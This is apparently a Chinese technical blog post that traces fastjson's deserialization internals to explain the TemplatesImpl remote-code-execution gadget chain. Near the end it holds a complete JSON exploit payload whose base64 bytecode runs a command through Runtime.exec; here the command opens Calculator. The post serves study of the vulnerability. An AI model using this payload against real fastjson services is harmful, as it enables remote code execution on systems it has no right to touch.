



fastjson 反序列化流程硬核跟踪
环境搭建
pom.xml
1 |
|
Poc.java
1 | import com.alibaba.fastjson.JSON; |
Test.java
1 | import com.sun.org.apache.xalan.internal.xsltc.DOM; |
代码跟踪
TemplatesImpl.class的寻找
触发点，一定要传入Feature.SupportNonPublicField否则后面不会为非公有字段添加反序列化器（后面会再提到）
步入 com.alibaba.fastjson.JSON#parseObject:181
步入 com.alibaba.fastjson.JSON#parseObject:190
从全局来看整个反序列化将在下面parseObject进行，其大致顺序是
- 配置反序列化时启用的特性，比如是否允许反序列化非公有字段
- 获取一个json的词法分析对象parser
- 用parser分析传入进来的json字符串，进行反序列化。
/com/alibaba/fastjson/JSON.class:199
先来细看DefaultJSONParser创建过程，先执行类初始化方法（略）。
然后执行对象的构造方法。/com/alibaba/fastjson/parser/DefaultJSONParser.class:98
执行构造方法的时候又会新建一个JSONScanner类，JSONScanner类的生成同样先是执行类初始化（略）
然后是对象父类的初始化
子类的初始化/com/alibaba/fastjson/parser/JSONScanner.class:28
然后回到DefaultJSONParser中执行构造方法，需要特别说明是初始化的时候将因为传入的json是{开头，所以将token设置为了12，随着词法分析进行token进行会一直改变，token不一样意味着解析接下来json的策略也会变。token与字符的关联关系定义在com.alibaba.fastjson.parser.JSONTokencom.alibaba.fastjson.parser.DefaultJSONParser#DefaultJSONParser
构造方法完成后意味着宏观来看的前两步也完成了，此时拿到词法分析器parser/com/alibaba/fastjson/JSON.class:203
接着进入从全局来看的最后一步（下面写的所有都是从最后一步展开分析）。调用parser的parseObject方法反序列化json。这里type是在写在Poc中的Object.class，这里的config是在Poc中new的ParserConfig，根据传入的类类型的不同，config会返回不同的反序列化器。com.alibaba.fastjson.parser.DefaultJSONParser#parseObject:575
先检查传入的type是不是(泛型)数组类型，最后又回到DefaultJSONParser的parsercom.alibaba.fastjson.parser.deserializer.JavaObjectDeserializer.class#deserialze:42
parser方法根据token的不同case到不同分支里面，开始的时候提到了，在创建DefaultJSONParser的时候token设置为了12。com.alibaba.fastjson.parser.DefaultJSONParser.class#parse:1295
case 12，主要进行的操作是提去出@type对应的类，并获取到类对象即TemplatesImpl。com.alibaba.fastjson.parser.DefaultJSONParser#parseObject
这里将token设置为了16（意味着json合法情况下，下一个符号是逗号）
根据TemplatesImpl类对象，寻找针对TemplatesImpl的反序列化器，之所以要找新的反序列化器是为了后续反序列化TemplatesImpl的字段。
找TemplatesImpl.class对应的反序列化器的任务还是委托给config，但是显然config并没有专门对付TemplatesImpl的反序列化器，所以走到了最后一个if条件，即把TemplatesImpl当作一个Java Bean来看并待根据TemplatesImpl实际情况定制一个JavaBeanDeserializer。com/alibaba/fastjson/parser/ParserConfig.class:411
定制一个的JavaBeanDeserializer来反序列化TemplatesImpl.class
细看一下TemplatesImpl版的JavaBeanDeserializer定制过程。
一来先构建一个beaninfocom.alibaba.fastjson.parser.ParserConfig.class#createJavaBeanDeserializer:480
beaninfo构建的目的主要是拿到TemplatesImpl满足条件的getter、setter对应的Field和无参构造方法。获取这些办法就是常规的内省操作。
内省重点是满足条件的getter和settercom.alibaba.fastjson.util.JavaBeanInfo.class#build:318
- 方法名长度大于4 && 非静态函数 && 返回类型为void或当前类 && 参数个数为1个 && 以set开头
com.alibaba.fastjson.util.JavaBeanInfo.class#build:458
- 方法名长度大于等于4 && 非静态方法 && 以get开头且第4个字母为大写 && 无参数 && 返回值类型继承自Collection Map AtomicBoolean AtomicInteger AtomicLong
找到getter setter对应的字段后，会把字段名、字段对应的方法、类对象等打包成fieldInfo并add到FieldList中
最后用内省拿到的各种东西去构建JavaBeanInfocom.alibaba.fastjson.util.JavaBeanInfo.class#build:480
构建JavaBeanInfo中有一步中的操作是把FiledInfo排序，排序之后后面要用到FileList的内容直接二分法拿。com.alibaba.fastjson.util.JavaBeanInfo#JavaBeanInfo:70
JavaBeanInfo构建好会遍历其filedLIst查看是否有getOnly的方法，如果有的话后面就不会用asm的方法创建（对asm不了解，查网上资料是这么说的：获取java bean的属性值，需要调用反射，fastjson引入了asm的来避免反射导致的开销。）这里很不幸，getOutputProperties属于getOnly方法（至于为什么是getOnly简单跟踪一下FiledInfo创建过程就知道了，这里不再展开）
所以这里最后会用非asm的方法创建JavaBeanDeserializer，用人话说就是直接new JavaBeanDeserializercom.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer
JavaBeanDeserializer构造方法中又把刚才拿到beaninfo的操作重复了一遍（上面已经跟过了这里也不重复跟踪）。com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.class#JavaBeanDeserializer:50
JavaBeanDeserializer在构造方法中会为每一个Bean字段创建一个反序列化器，并把反序列化器放到sortedFieldDeserializers中com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.class#JavaBeanDeserializer:64
这个反序列化器默认情况下是DeafultFiledDeserializercom.alibaba.fastjson.parser.ParserConfig.class#createFieldDeserializer:565
最后会把JavaBeanDeserializer的Teamplaytesimpl方法到反序列化器的序列中（如果后面其它也要用就不用重新创建一次了）
至此JavaBeanDeserializer定制完成，下面就开始正式反序列化TemplatesImpl
JavaBeanDeserializer.deserialze
deserialze往下跟几步会进入label1064，从宏观来看主要的操作都在label1064和其子label中，做了以下这几件事情。
- 创建TemplatesImpl对象
- 继续读取json字符串内容
- 用字段的反序列化器把读到内容set到TemplatesImpl对象中
第一步创建TemplatesImpl对象/com/alibaba/fastjson/parser/deserializer/JavaBeanDeserializer.class:579
第二步根据从json字符串读出的key，反序列化对应字段/com/alibaba/fastjson/parser/deserializer/JavaBeanDeserializer.class:606

往下跟的话之前设置的Feature.SupportNonPublicField.mask在这里就发挥作用了，如果没有这个在TemplatesImpl这条链中_bytecodes因为是私有字段的原因最后就不会被反序列化。SupportNonPublicField选项会把所有字段的反序列化器全部生成并放到extraFieldDeserializers中。com.alibaba.fastjson.parser.DefaultJSONParser:747
第三步到了最后的时刻，好戏上演。最后一步从局部宏观来看还可再细分为三步
1.获取直接和字段值打交道的反序列化器fieldValueDeserilizer
2.反序列化拿字段对象
3.把字段对象set到object中（如果字段对象的fieldInfo是getOnly，则会反射调用getter方法，从微观来讲RCE问题出在这个地方）
以_bytecodes为例
第一步 没啥好说的依旧通过config类获取对应的反序列化器
第二步 fieldValueDeserilizer是ObjectArrayCodec，负责把base64编码解码

第三步 就是把拿到的值放到TemplatesImpl对象中了

_name，_tfactory，_outputProperties的反序列化大同小异
说法在反序列化_outputProperties的时候
在第三步setValue的时候，因为_outputProperties是getOnly的所以进入不一样的分支，并触发它相应的get方法即getOutputProperties，最后会触发Test的无参数构造方法。
因为本文主要想描述fastjosn的大致流程，后面和反射部分和fastjson关联性不大了，就不细跟了。不过如果细跟的话就会发现为啥payload是这么构造。（json中看似多余字段为啥要加，为啥要继承AbstractTranslet等等，说白了就是如果不这样进入不了触发无参构造器的分支）。
杂想
弄懂整体流程，弄懂每个大流程下的小流程，弄懂流程之间参数的勾连关系。
从代码上来说，从功能来说。
从大流程上来说，从大流程中小流程来说。
套路或者说定性的规律
附
fastjson的黑名单
https://github.com/LeadroyaL/fastjson-blacklist
token对应表
1 | /** 1 关联到 error */ |
payload
1 | {"@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl","_bytecodes":["yv66vgAAADEANAoABwAlCgAmACcIACgKACYAKQcAKgoABQAlBwArAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAAZMVGVzdDsBAApFeGNlcHRpb25zBwAsAQAJdHJhbnNmb3JtAQByKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIZG9jdW1lbnQBAC1MY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTsBAAhoYW5kbGVycwEAQltMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwcALQEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAhpdGVyYXRvcgEANUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7AQAHaGFuZGxlcgEAQUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQAEbWFpbgEAFihbTGphdmEvbGFuZy9TdHJpbmc7KVYBAARhcmdzAQATW0xqYXZhL2xhbmcvU3RyaW5nOwEAAXQHAC4BAApTb3VyY2VGaWxlAQAJVGVzdC5qYXZhDAAIAAkHAC8MADAAMQEAIW9wZW4gL0FwcGxpY2F0aW9ucy9DYWxjdWxhdG9yLmFwcAwAMgAzAQAEVGVzdAEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQBABNqYXZhL2lvL0lPRXhjZXB0aW9uAQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQATamF2YS9sYW5nL0V4Y2VwdGlvbgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAFAAcAAAAAAAQAAQAIAAkAAgAKAAAAQAACAAEAAAAOKrcAAbgAAhIDtgAEV7EAAAACAAsAAAAOAAMAAAAKAAQACwANAAwADAAAAAwAAQAAAA4ADQAOAAAADwAAAAQAAQAQAAEAEQASAAIACgAAAD8AAAADAAAAAbEAAAACAAsAAAAGAAEAAAAQAAwAAAAgAAMAAAABAA0ADgAAAAAAAQATABQAAQAAAAEAFQAWAAIADwAAAAQAAQAXAAEAEQAYAAIACgAAAEkAAAAEAAAAAbEAAAACAAsAAAAGAAEAAAAUAAwAAAAqAAQAAAABAA0ADgAAAAAAAQATABQAAQAAAAEAGQAaAAIAAAABABsAHAADAA8AAAAEAAEAFwAJAB0AHgACAAoAAABBAAIAAgAAAAm7AAVZtwAGTLEAAAACAAsAAAAKAAIAAAAXAAgAGAAMAAAAFgACAAAACQAfACAAAAAIAAEAIQAOAAEADwAAAAQAAQAiAAEAIwAAAAIAJA=="],'_name':'a.b','_tfactory':{ },"_outputProperties":{ },"_name":"a","_version":"1.0","allowedProtocols":"all"} |
note
lexer的np代表开始位置的偏移量，bp表示结束位置的偏移量，每next一次bp就加一，sp是相较于np而言的偏移量。
参考
fastjson 远程反序列化poc的构造和分析
FastJson 反序列化学习
Fastjson 流程分析及 RCE 分析
FastJson反序列化解析流程
Fastjson反序列化漏洞 1.2.24-1.2.48
Java中Type接口与Class类的区别联系
Type 接口【重要】
秒懂 Java注解类型（@Annotation）
fastjson深度源码解析